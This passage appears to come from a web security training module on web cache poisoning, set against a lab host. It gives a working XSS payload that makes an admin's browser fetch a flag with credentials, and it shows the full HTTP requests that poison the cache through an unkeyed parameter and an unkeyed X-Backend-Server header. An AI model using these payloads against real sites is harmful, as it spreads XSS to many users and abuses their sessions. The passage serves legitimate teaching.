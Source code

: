 ```js
<script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();</script>

```

This results in the following cache poisoning request, assuming our victim visits the site with the `language=de` parameter (after adding `">` for XSS injection):

```http
GET /index.php?language=de&ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%27GET%27,%20%27/admin.php?reveal_flag=1%27,%20true);xhr.withCredentials%20=%20true;xhr.send();%3C/script%3E HTTP/1.1
Host: webcache.htb

```

After poisoning the cache and waiting for a while, the admin should visit the site, trigger our XSS payload and reveal the flag for us.

## Unkeyed Headers

Similarly to unkeyed GET parameters, it is quite common to find unkeyed HTTP headers that influence the response of the web server. In the current web application, assume we found the custom HTTP header `X-Backend-Server` which seems to be a left-over debug header that influences the location a debug script is loaded from:

![image](7dutdylVPBAW.png)

We can apply the same methodology from before to determine that this header is unkeyed. Since this header is reflected without sanitization, we can also use it to exploit an XSS vulnerability. We can thus use the header to deliver the same payload as before with the following request:

```http
GET /index.php?language=de HTTP/1.1
Host: webcache.htb
X-Backend-Server: testserver.htb"></script><script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();//

```


# Web Cache Poisoning Attacks

Web cache poisoning is typically used to distribute a different underlying vulnerability in the web application to a large number of users. This makes the exploitation of web cache poisoning very dependent on the specific web application. Additionally, poisoning the cache is often not trivial. In real-world scenarios, many users are accessing the web application at the same time as we are. Therefore, when we request a page it is most likely already cached and we are only served the cached response. In these cases, we need to send our malicious request at the exact time that the cache expires to get the web cache to store the response. Getting this timing right involves a lot of trial and error. However, it can be significantly easier if the web server reveals information about the expiry of the cache.
